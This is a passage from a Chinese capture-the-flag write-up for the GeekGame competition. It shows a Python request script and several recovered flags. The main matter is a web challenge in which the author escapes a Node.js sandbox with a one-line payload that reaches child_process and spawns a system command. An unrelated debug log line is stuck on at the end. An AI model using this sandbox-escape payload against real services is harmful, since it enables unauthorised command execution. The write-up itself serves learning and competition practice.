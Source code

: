 ```python

print(res)

ts = soup.find('input', {'name': 'ts'})['value']
certificate = soup.find('input', {'name': 'certificate'})['value']

data = {
    'response': res,
    'ts': ts,
    'certificate': certificate
}

cookies = {
    'anticheat_canary': '<my-canary>',
    'session': '<my-token>'
}

url = 'https://prob05.geekgame.pku.edu.cn/page2?' 
response = requests.post(url, data=data, cookies=cookies)

print('状态码:', response.status_code)
print('响应内容:', response.text)
```

```
flag{AlL ANtI-cOpy TeCHnIques Are USeLess BRO}
```


## 7. [Web] 概率题目概率过
### FLAG2
Flag2 比 Flag1 简单，先做这个。

搜了一下如何在 Nodejs 里运行系统命令，找到可以用 `require('child_process').spawnSync('xxxx')`。然而试了一下告诉我没有 require。在 [https://ctftime.org/writeup/34053](https://ctftime.org/writeup/34053) 里搜到了解决方法。使用
```
global.process.mainModule.require('child_process').spawnSync('/getflag2').output[1]+''
```
即可得到 Flag

```
flag{TricKY-To-SpAwn-SuBpRoceSS-IN-noDEJs}
```

清北问答第 7 题(确信

### FLAG1
先试着找找怎么实现 Eval。直接用肯定是没有的。找到 webppl 的源码，翻啊翻翻到函数 `webpplEval`。这就是我们想要找的 Eval。。。了吗？

这个 `webpplEval` 倒是可以运行 `document.write` 这种函数，但所有 `document.xxx = yyy` 都会报错

```
Line 1: You tried to assign to a field of document, but you can only assign to fields of globalStore
```


[2024:09:30:17:14:32]: Debug: --begin keyboard packet--